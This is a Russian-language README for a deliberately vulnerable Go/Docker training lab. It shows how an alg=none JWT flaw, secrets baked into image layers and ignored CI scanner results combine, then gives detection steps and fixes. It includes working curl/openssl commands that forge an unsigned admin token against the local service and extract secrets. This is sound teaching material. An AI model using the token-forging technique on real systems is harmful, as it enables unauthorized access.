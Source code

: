 # Сценарий A: Провал CI/CD-конвейера на Go
**Уровень сложности:** продвинутый  
**Суть проблемы:**  
В этой задаче вам предстоит разобраться, как сочетание сразу трёх ошибок DevOps-практик приводит к критической уязвимости:

1. **Использование уязвимой библиотеки** JWT с поддержкой `alg=none` (CVE–RCE).  
2. **Утечка секретов** из-за попадания в образ файла `config.yaml` с чувствительными данными и передача секрета через Dockerfile, что отображается в слоях создания образа.  
3. **Игнорирование результатов сканирования** в CI/CD: `golangci-lint` и `Trivy` настроены так, что ошибки не останавливают конвейер.

В качестве приложения используется Go-сервис, который выдаёт JWT-токен, проверяет его в админ-эндпоинте и отдаёт пароль базы данных через `/secret`.

## Запуск
- Сборка
```sh
docker-compose up --build -d
```
- Убедитесь, что контейнеры запущены:
```sh
docker ps
```

## Эксплуатация уязвимостей
- JWT-уязвимость (alg=none):
```sh
# Получить токен
TOKEN=$(curl -s http://localhost:8080/login)
echo "$TOKEN"

# Попасть в админку без подписи
curl -H "Authorization: Bearer $TOKEN" http://localhost:8080/admin
```

- Forge-токен с любым user
```sh
HEADER=$(printf '{"alg":"none","typ":"JWT"}' \
          | openssl base64 -e | tr -d '=' | tr '/+' '_-')
PAYLOAD=$(printf '{"user":"admin","exp":%d}' \
          $(date -d "+1 hour" +%s) \
          | openssl base64 -e | tr -d '=' | tr '/+' '_-')
EXPLOIT="$HEADER.$PAYLOAD."
curl -H "Authorization: Bearer $EXPLOIT" http://localhost:8080/admin
```
- Утечка секретов:
```sh
curl http://localhost:8080/secret

docker history app-go:latest
```

- Утечка конфигурационных и секретных файлов:
```sh
docker exec -it laba_ci_disaster-app-go-1 sh

# В контейнере обнаружим все файлы, которые содержались в изначальной дериктории сборки контейнера
ls -al
```

## Обнаружение
- Trivy (scanner):
```sh
docker-compose logs scanner
```
увидите сообщения о CVE в библиотеке jwt-go.

- Code scanner:
```sh
docker-compose logs code-scan
```
найдёт потенциально опасные вызовы

- Просмотр слоев сборки образа:

```sh
docker history app-go:latest
```

## Исправления
- Обновить JWT-библиотеку:
Измените начало файла `main.go`
```go
package main

import (
	"fmt"
	"io/ioutil"
	"log"
	"net/http"
	"time"

	"github.com/golang-jwt/jwt/v4"
	"gopkg.in/yaml.v2"
)
```

- Исправить фунцию обработки входа(Новый `adminHandler`):
```go
func adminHandler(w http.ResponseWriter, r *http.Request) {
    auth := r.Header.Get("Authorization")
    if auth == "" {
        http.Error(w, "No token", http.StatusUnauthorized)
        return
    }
    tokenString := auth[len("Bearer "):]
    token, err := jwt.Parse(tokenString, func(token *jwt.Token) (interface{}, error) {
        // Проверяем, что метод подписи — HMAC
        if _, ok := token.Method.(*jwt.SigningMethodHMAC); !ok {
            return nil, fmt.Errorf("Unexpected signing method: %v", token.Header["alg"])
        }
        return []byte(cfg.JWTSecret), nil
    })
    if err != nil || !token.Valid {
        http.Error(w, "Invalid token", http.StatusForbidden)
        return
    }
    claims := token.Claims.(jwt.MapClaims)
    fmt.Fprintf(w, "Welcome back, %v\n", claims["user"])
}
```

- Изменить файл `go.mod` для использования более новой версии Golang
```go
module labA_go_ci_disaster

go 1.24

require (
	github.com/golang-jwt/jwt/v4 v4.5.2
	gopkg.in/yaml.v2 v2.4.0
)

```

- Добавляем `.dockerignore`
```dockerignore
# игнорируем всё, кроме исходников Go и конфига
*
!main.go
!go.mod
!go.sum
!config.yaml
```

- Переписываем Dockerfile на multi-stage build
```Dockerfile
# Stage 1: build
FROM golang:1.24-alpine AS builder
WORKDIR /app
RUN apk add --no-cache git ca-certificates bash

COPY . .
RUN go mod tidy
RUN go mod download

RUN go build -o server main.go

# Stage 2: runtime
FROM alpine:3.17
WORKDIR /app

# Копируем только бинарь и конфиг
COPY --from=builder /app/server .
COPY --from=builder /app/config.yaml .

# Минимизируем поверхность атаки
RUN addgroup -S app && adduser -S app -G app
USER app

EXPOSE 8080
CMD ["./server"]
```

## Вывод

Этот сценарий показывает, как важно:
- Не игнорировать ошибки линтеров и сканеров в CI/CD,
- Управлять секретами с помощью .dockerignore и безопасных конфигов,
- Использовать современные, поддерживаемые библиотеки и версии языков программирования, а также правильно проверять JWT-подписи,
- Собирать образы по multi-stage, уменьшая поверхность атаки.

